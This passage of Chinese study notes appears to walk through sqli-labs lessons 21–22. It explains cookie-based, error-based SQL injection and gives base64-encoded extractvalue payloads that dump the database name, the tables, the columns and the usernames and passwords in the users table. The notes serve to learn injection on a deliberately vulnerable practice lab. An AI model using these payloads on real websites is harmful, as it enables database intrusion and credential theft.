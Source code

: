 - 报错注入不需要判断字段数，所以直接爆数据库名`payload:YWRtaW4nKSBhbmQgZXh0cmFjdHZhbHVlKDEsY29uY2F0KDB4N2UsKHNlbGVjdCBkYXRhYmFzZSgpKSwweDdlKSkgIw==`
- 爆数据表`payload:YWRtaW4nIGFuZCBleHRyYWN0dmFsdWUoMSxjb25jYXQoJ34nLChzZWxlY3QgZ3JvdXBfY29uY2F0KHRhYmxlX25hbWUpIGZyb20gaW5mb3JtYXRpb25fc2NoZW1hLnRhYmxlcyB3aGVyZSB0YWJsZV9zY2hlbWE9ZGF0YWJhc2UoKSksJ34nKSkj`
- 爆字段`payload:MScgYW5kIGV4dHJhY3R2YWx1ZSgxLGNvbmNhdCgnficsKHNlbGVjdCBncm91cF9jb25jYXQoY29sdW1uX25hbWUpZnJvbSBpbmZvcm1hdGlvbl9zY2hlbWEuY29sdW1ucyB3aGVyZSB0YWJsZV9uYW1lPSd1c2VycycpLCd+JykpIw==` 右：`MScgb3IgZXh0cmFjdHZhbHVlKDEscmlnaHQoY29uY2F0KCd+Jywoc2VsZWN0IGdyb3VwX2NvbmNhdChjb2x1bW5fbmFtZSlmcm9tIGluZm9ybWF0aW9uX3NjaGVtYS5jb2x1bW5zIHdoZXJlIHRhYmxlX25hbWU9J3VzZXJzJyksJ34nKSwzMikpIw==`
- 爆数据`payload:MScgYW5kIGV4dHJhY3R2YWx1ZSgxLCBjb25jYXQoMHg3ZSwoc2VsZWN0IChncm91cF9jb25jYXQodXNlcm5hbWUscGFzc3dvcmQpKSBmcm9tIHVzZXJzKSwweDdlKSklMjM=` `payload:?MScgYW5kIGV4dHJhY3R2YWx1ZSgxLCByaWdodChjb25jYXQoMHg3ZSwoc2VsZWN0IChncm91cF9jb25jYXQodXNlcm5hbWUscGFzc3dvcmQpKSBmcm9tIHVzZXJzKSwweDdlKSwzMikpIw==`

## less-22

##### 注入类型

cookie部分注入(base64)加密

##### 输入点

采用damin登录后，发现cookie会获取username的值再传入。刷新页面，会重新获取cookie于是可以趁机修改，但是这个cookie是经过加密过后的。

![image-20201113154324761](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114715.png)

##### 输出点：

在BP包中将cookie：username=admin改为username=AAA。发现页面也的`YOUR COOKIE : uname =`也会修改。于是就可以在这里进行报错注入。传入`AAA'`，爆错如下，所以是对username做了""处理。所以使用`"`来闭合它![image-20201113155254893](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114718.png)

![image-20201113155333933](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114719.png)

##### 注入方式

通过它会cookie的值这个特性来修改cookie来使用报错语句进行sql注入（需要对报错语句进行base64加密）

##### 注入步骤

- 报错注入不需要判断字段数，所以直接爆数据库名`payload:?YWRtaW4iIGFuZCBleHRyYWN0dmFsdWUoMSxjb25jYXQoMHg3ZSwoc2VsZWN0IGRhdGFiYXNlKCkpLDB4N2UpKSAj`
- 爆数据表`payload:MSIgYW5kIGV4dHJhY3R2YWx1ZSgxLGNvbmNhdCgnficsKHNlbGVjdCBncm91cF9jb25jYXQodGFibGVfbmFtZSkgZnJvbSBpbmZvcm1hdGlvbl9zY2hlbWEudGFibGVzIHdoZXJlIHRhYmxlX3NjaGVtYT1kYXRhYmFzZSgpKSwnficpKSM=`
- 爆字段`payload:MSIgYW5kIGV4dHJhY3R2YWx1ZSgxLGNvbmNhdCgnficsKHNlbGVjdCBncm91cF9jb25jYXQoY29sdW1uX25hbWUpZnJvbSBpbmZvcm1hdGlvbl9zY2hlbWEuY29sdW1ucyB3aGVyZSB0YWJsZV9uYW1lPSd1c2VycycpLCd+JykpIw==` 右：`MSIgIGFuZCBleHRyYWN0dmFsdWUoMSxyaWdodChjb25jYXQoJ34nLChzZWxlY3QgZ3JvdXBfY29uY2F0KGNvbHVtbl9uYW1lKWZyb20gaW5mb3JtYXRpb25fc2NoZW1hLmNvbHVtbnMgd2hlcmUgdGFibGVfbmFtZT0ndXNlcnMnKSwnficpLDMyKSkj`
- 爆数据`payload:MSIgYW5kIGV4dHJhY3R2YWx1ZSgxLCBjb25jYXQoMHg3ZSwoc2VsZWN0IChncm91cF9jb25jYXQodXNlcm5hbWUscGFzc3dvcmQpKSBmcm9tIHVzZXJzKSwweDdlKSklMjM=` `payload:?1MSIgYW5kIGV4dHJhY3R2YWx1ZSgxLCByaWdodChjb25jYXQoMHg3ZSwoc2VsZWN0IChncm91cF9jb25jYXQodXNlcm5hbWUscGFzc3dvcmQpKSBmcm9tIHVzZXJzKSwweDdlKSwzMikpIw==`

## less-23

